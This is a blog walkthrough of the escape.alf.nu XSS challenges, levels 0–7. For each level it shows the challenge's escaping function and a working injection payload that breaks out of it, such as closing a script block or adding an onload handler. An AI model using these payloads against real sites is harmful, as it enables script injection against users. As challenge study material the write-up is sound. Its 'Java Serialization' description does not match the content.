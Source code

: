 ```yaml
---
layout: post
title:  "Escape.alf.nu walkthrough"
image: ''
date:   2017-01-23 00:06:31
tags:
- JavaScript, escape.alf.nu
description: 'Web 300 - Java Serialization'
categories:
- escape.alf.nu, JavaScript
---
```

There are many solutions to Erling Ellingsen’s <a href="https://alf.nu/alert1">escape.alf.nu</a> XSS challenges and I will be giving the solutions to first few challenges in the set.
I suggest <b>not to</b> read the write-up before you attempting it. It can take several days to solve the challenges depending on the amount of knowledge you’ve on the same. It took me several days to complete up till the first three challenges and I’d be posting here on how to tackle them effectively and also the key points to note upon while solving the challenges.

`Level 0`:
{% highlight JavaScript %}
function escape(s) {
  // Warmup.

  return 'console.log("'+s+'");';
}
{% endhighlight %}

Point to be noted to here is first we have to close the `console.log` and then fulfil with the requirement we want.

Solution: `");alert(1);//`


`Level 1`:
{% highlight JavaScript %}
function escape(s) {
  // Escaping scheme courtesy of Adobe Systems, Inc.
  s = s.replace(/"/g, '\\"');
  return 'console.log("' + s + '");';
}
{% endhighlight %}

The key point in the next level is that the `s.replace(/""/g, '//"/');` replaces the `"` as `/"` for which we simply have to escape the backslash.

Solution: `\");alert(1);//`

`Level 2`
{% highlight JavaScript %}
function escape(s) {
  s = JSON.stringify(s);
  return 'console.log(' + s + ');';
}
{% endhighlight %}

Pointed to be noted here is with the function `JSON.stringify(s);` which will escape double quotes `“` into `/”` but then we can see that it doesn’t escape `<>` brackets. So what suddenly struck me was to make a script block and then execute `alert(1)` in it.

Solution: `</script>alert(1)`

`Level 3`
{%highlight JavaScript %}
function escape(s) {
  var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
  console.log(url);

  var a = document.createElement('a');
  a.href = url;
  document.body.appendChild(a);
  a.click();
}
{% endhighlight %}

Point to be noted here is that `console.log(url)` which make us enable to use URL encoding for double quotes because it’s being escaped here.

Solution: `%22);alert(1);//`

`Level 4`
{% highlight JavaScript %}
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace('"', '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
{% endhighlight %}

Point to be noted here is that `<` is being globally replaced by `&lt` and `“` is being replaced once by `&quot` . Then I noticed how it is being replaced and then I split the whole thing up inside the `text.replace()` and then arrived at the solution. Moreover the escape function uses a template like `[[src|alt]]`.

Solution: `[[a|””onload=alert(1);//]]`

It will be rendered as:

`<img src=”a.gif” onload=”alert(1)” alt”““>`

`Level 5`
{% highlight JavaScript %}
function escape(s) {
  // Level 4 had a typo, thanks Alok.
  // If your solution for 4 still works here, you can go back and get more points on level 4 now.

  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
{% endhighlight %}

There were two points to be noted. One was that in the comment part which made me realize that it had similarity to that of the previous question and even before reading the rest, I tried the previous payload which didn’t work. Later I went through the rest of the code and figured out that it was in an http context.

Solution: `[[a|http://onload=alert(1);//]]`

`Level 6`
{% highlight JavaScript %}
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);

  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
{% endhighlight %}

First I noticed the comment section and figured out how `TextNode#foo` would show up and it just showed `foo`. Then I started reviewing all the functions in the DOM that begin with `create` as it is there in the function. Then I figured out the `createComment` from which I tried giving `Comment#foo` which showed `<!–<foo>–>` from which it made easy for the solution.

Solution:  `Comment#><svg/onload=alert(1)`

`Level 7`
{% highlight JavaScript %}
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "" + thing[0] + "(" + json +")";
}
{% endhighlight %}

Pointed to be noted here was that, first I gave input as there in the comment part and tried to analyse how it being rendered. Then I tried to play with it such that `alert(1)` gets executed.

Solution: `‘#’;alert(1)//`
